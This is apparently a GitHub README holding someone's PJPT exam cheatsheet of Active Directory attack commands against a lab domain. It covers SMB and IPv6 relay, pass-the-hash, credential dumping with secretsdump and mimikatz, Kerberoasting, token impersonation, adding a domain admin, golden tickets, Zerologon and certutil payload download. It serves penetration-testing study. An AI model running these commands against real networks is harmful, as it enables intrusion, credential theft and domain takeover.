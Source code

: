 # PJPT-cheatsheet
Cheatsheet I used to pass the PJPT exam

To learn more about my exam experience: https://www.bighandsecurity.com/pjpt/

Active Directory Exploitation:

## Network Reconnaissance and Mapping

### Initial Network Probing
```bash
# Network Detection Command
responder -I tun0 -dwPv 

# Accessing Network Resources
//attacker_ip
```

#### SMB Relay Attack
1. Security Configuration Check
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

2. SMB Relay Configuration
```bash
# Configure Connection Settings
nano /etc/responder/Responder.conf
# Turn SMB & HTTP Off

# Establish Relay
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

### Remote System Access Methods

#### Metasploit Connection
```bash
use exploit/windows/smb/psexec
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
```

#### Alternative Access Techniques
```bash
# Direct Authentication Approach
psexec.py marver.local/fcastle:'Password1'@10.0.0.25

# Credential Hash Authentication
psexec.py administrator@10.0.0.25 --hashes [LM:NTLM]
```

#### Alternative Execution Strategy
```bash
wmiexec.py administrator@192.168.138.137 --hashes [LM-HASH]:[NTLM-HASH]
```

### IPv6 Network Exploitation
```bash
# Domain-Specific IPv6 Attack
sudo mitm6 -d marvel.local

# NTLM Redirection
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```

### Domain Information Gathering

#### Enumeration Tools
```bash
# LDAP Domain Intelligence
sudo ldapdomaindump ldaps://192.168.138.136 -u 'MARVEL\fcastle' -p Password1

# Advanced Network Mapping
sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns [DC-IP] -c all
```

### Credential Extraction Techniques

#### Network Credential Verification
```bash
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

#### Credential Dump Methods
```bash
# Meterpreter Extraction
use windows/smb/psexec
run
hashdump

# Comprehensive Credential Collection
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
```

### Advanced Penetration Techniques

#### Service Principal Name Extraction
```bash
# SPN Discovery
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request

# Hash Cracking
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

#### Token Manipulation
```bash
# Token Inventory
meterpreter > list_tokens -u

# User Token Impersonation
meterpreter > impersonate_token MARVEL\\administrator
```

### Domain Management
```bash
# User Creation
net user /add hawkeye Password1@ /domain

# Administrative Group Addition
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

### Advanced Persistent Threat Techniques

#### Golden Ticket Generation
```bash
# Credential Preparation
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt

# Ticket Fabrication
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID] /krbtgt:[HASH] /id:[ID] /ptt
```

### Vulnerability Exploitation

#### Specific CVE Approaches
```bash
# Zerologon Exploitation
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.132

# Print Spooler Vulnerability Check
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

### Data Transfer Methods
```bash
# Windows File Download
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt

# Python HTTP Share
python3 -m http.server --bind [your_ip] [port]
```
